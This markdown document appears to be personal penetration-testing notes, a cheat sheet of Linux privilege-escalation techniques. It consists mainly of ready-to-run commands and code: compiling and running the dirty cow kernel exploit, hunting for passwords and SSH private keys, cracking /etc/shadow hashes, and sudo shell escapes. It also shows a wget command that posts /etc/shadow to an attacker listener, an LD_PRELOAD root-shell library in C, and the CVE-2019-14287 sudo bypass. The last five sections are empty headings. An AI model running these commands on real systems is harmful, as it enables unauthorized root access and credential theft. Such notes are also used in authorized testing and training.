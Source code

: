 # Escalation Paths

1. [Kernel Exploits](#kernel-exploits)
2. [Stored Passwords](#stored-passwords)
3. [File Permissions](#file-permissions)
4. [Sudo](#sudo)
5. [SUID](#suid)
6. [Capabilities](#capabilities)
7. [Scheduled Tasks](#scheduled-tasks)
8. [NFS Root Squashing](#nfs-root-squashing)
9. [Docker](#docker)

## Kernel Exploits

* [Repo for common kernel exploits](https://github.com/lucyoa/kernel-exploits)

```shell
uname -a
#Google or searchsploit the version
#get exploit code

#we can also use linux-exploit-suggester
./linux-exploit-suggester.sh

#dirty cow exploit
gcc -pthread c0w.c -o cow
#creates executable for exploit

./cow
#privesc

passwd
#elevates user to root
```

## Stored Passwords

```shell
history

ls -la

cat .bash_history
#check for passwords

su root
#use root password

#for stored passwords
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
#check for passwords in current dir

#check using automated tools such as linpeas.sh
```

## File Permissions

```shell
ls -la /etc/passwd

ls -la /etc/shadow
#if we have read access, we can use that

cat /etc/passwd

cat /etc/shadow
#copy both file contents to attacker machine

unshadow passwd shadow
#copy output of required users and their hashes
#we can use this with hashcat or john
#identify hash type with hashcat wiki

su root
#switch to user with password
```

```shell
#hunting for ssh keys
find / -name authorized_keys 2>/dev/null

find / -name id_rsa 2>/dev/null
#private keys

ls -la id_rsa
#attempt to use private key

chmod 600 id_rsa

ssh root@10.10.10.12 -i id_rsa
#we can check into other users' .ssh folder
```

## Sudo

```shell
#sudo shell escaping

sudo -l
#we can run vim as sudo
#get exploit from GTFObins

sudo vim -c ':!/bin/sh'
#gives root shell
```

```shell
#intended functionality

sudo -l
#we can run apache2 as root
#but we do not have exploit in GTFObins

sudo apache2 -f /etc/shadow
#we can view root hash

sudo wget --post=file=/etc/shadow 10.10.14.12:8081
#we get root hash on our listener at port 8081
```

```shell
#LD_PRELOAD

sudo -l
#env var linked to LD_PRELOAD
#we can load our malicious libraries before other libraries

vim shell.c
#add exploit code

gcc -fPIC -shared shell.c -o shell.so -nostartfiles
#fPIC is for position independent code

ls
#shell.so is created

sudo LD_PRELOAD=/home/user/shell.so less
#use full path for .so file
#run with program that can be run as sudo, in this case - less
#this gives us root shell
```

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```shell
#CVE-2019-14287
#for !root sudo permissions

sudo -l

sudo -u#-1 /bin/bash
#we get root shell
```

```shell
#CVE-2019-18634

cat /etc/sudoers
#if pwfeedback option is set (asterisks for password)
#and sudo version < 1.8.26
#this exploit is possible

#get exploit from Google
#compile and run it to get root
```

## SUID

## Capabilities

## Scheduled Tasks

## NFS Root Squashing

## Docker
